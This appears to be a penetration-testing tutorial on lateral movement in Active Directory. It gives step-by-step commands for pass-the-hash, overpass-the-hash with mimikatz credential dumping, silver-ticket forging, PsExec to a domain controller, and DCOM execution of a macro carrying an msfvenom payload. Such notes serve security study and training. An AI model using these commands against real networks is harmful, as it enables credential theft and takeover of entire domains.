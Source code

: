 # Lateral Movement

>Since we have located high-valuable targets logged on some workstations/servers and we have obtained password hashes and tickets from current machine, we can move laterally to try compromise these high value targets that could lead to full AD compromise.

## Pass the Hash

> Allows us to authenticate to a remote system or service using the NTLM hash of a user (will not work for Kerberos authentication).

 ```bash
#From our kali machine:
pth-winexe -U $USER%$NTLMHASH //$IPADDRESS cmd
#Change $IPADDRESS to the remote machine.
 ```

**Note:** This method only works for AD domain accounts and the built-in local administrator account.

_____

## Overpass the Hash

Thanks to this method we can abuse the NTLM hash of a user to gain a full kerberos TGT or TGS which grants us access to another machine or service as that user.

Imagine we have compromised a workstation and there are cached NTLM hashes of other users. The first step is to grab the NTLM hash of a user using mimikatz:

```bash
sekurlsa::logonpasswords
```

Now we have to use the following mimikatz tool open a powershell prompt as the context of this user:

```bash
sekurlsa::pth /user:$USERNAME /domain:$DOMAINNAME /ntlm:$NTLMHASH /run:PowerShell.exe
```

Next, if there are no Kerberos tickets cached, we have to generate one:

```bash
#List current tickets:
klist

#Generate a TGT by authenticating somewhere:
net use \\$DCHOSTNAME
```

Now we have a full Kerberos TGT which allows us to use any tools that rely on Kerberos authentication:. For example, login as this user on the domain controller:

```bash
.\PsExec \\$DCHOSTNAME cmd.exe
```

_____

## Pass The Ticket

The overpass the hash used before provides us with a TGT ticket which is only usable on the machine it was created for. Pass The Ticket attack takes advantage of the TGS which may be exported and re-injected elsewhere used to authenticate to a specific service.

With the SPN service account password or its associated NTLM hash we can forge our own TGS to access the target resource with any permission we desire (silver ticket).

We make use of mimikatz kerberos::golden command to create this ticket.

**Step 1:** Find the SID of the domain:

```bash
whoami /user
#SID is all the output minus the last part (last 4 numbers)
```

**Step 2:** Craft the ticket:

```bash
kerberos::golden /user:$DOMAINUSER /domain:$DOMAIN /sid:$SID /target:$SPNNAME /service:$SERVICE /rc4:$NTLMHASH /ptt

#user: Domain user we currently are, not the service user.
#service: First part of serviceprincipalname (until "\").
#ppt: Injects directly the ticket in memory. Remove to save the ticket on disk.
#rc4: NTLM hash of the password.
```

This service ticket will have permissions as built-in local administrator user (500) and Domain Admins (plus other high privileged) AD group. Once loaded into memory, we can interact with the service and gain access to any information, including command execution.

_____

## DCOM

We can use DCOM (like Macros from Excel) to perform a lateral movement technique. This method will allow us to execute a Visual Basic Macro remotely. Note: Office shoud lbe installed on the remote machine.

**Step1:** Create a document and paste the following macro:

```bash
#Create the payload with msfvenom with format (hta-psh)
Sub MyMacro()
Dim Str As String

Str = Str + "$PAYLOAD"
Str = Str + "$PAYLOAD"

Shell (Str)

End Sub
```

**Step 2:** Execute the following code on a PS window in order yo upload the file to the remote machine and execute the macro.



```bash
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "$REMOTEIPADDRESS"))
$LocalPath = "$LOCALPATH\$FILENAME.xls"
$RemotePath = "\\$REMOTEIPADDRESS\c$\$FILENAME.xls"
[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
$Path = "\\$REMOTEIPADDRESS\c$\Windows\sysWOW64\config\systemprofile\Desktop"
$temp = [system.io.directory]::createDirectory($Path)
$Workbook = $com.Workbooks.Open("C:\$FILENAME.xls")
$com.Run("mymacro")

#Note: filename must be .xls
```
